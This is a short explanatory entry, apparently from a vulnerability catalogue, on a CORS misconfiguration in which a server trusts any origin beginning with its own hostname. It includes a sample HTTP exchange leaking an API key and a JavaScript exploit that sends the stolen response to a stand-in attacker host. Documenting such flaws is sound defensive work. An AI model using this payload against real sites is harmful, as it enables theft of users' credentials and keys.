 # Post Domain Bypass

## Description 
Host allows requests from hostnames that has this host as a suffix.  

**Severity**: High

## Exploit
`example.com` trusts `example.com.evil.com`, which is an attacker's domain.

### Example
In this scenario any suffix inserted after `example.com` will be accepted by the server.  

**Vulnerable Implementation**

```http
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://example.com.evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://example.com.evil.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

**Exploit**  
This exploit requires that the respective JS script is hosted at `example.com.evil.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

[code source](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-implementation-example-1)
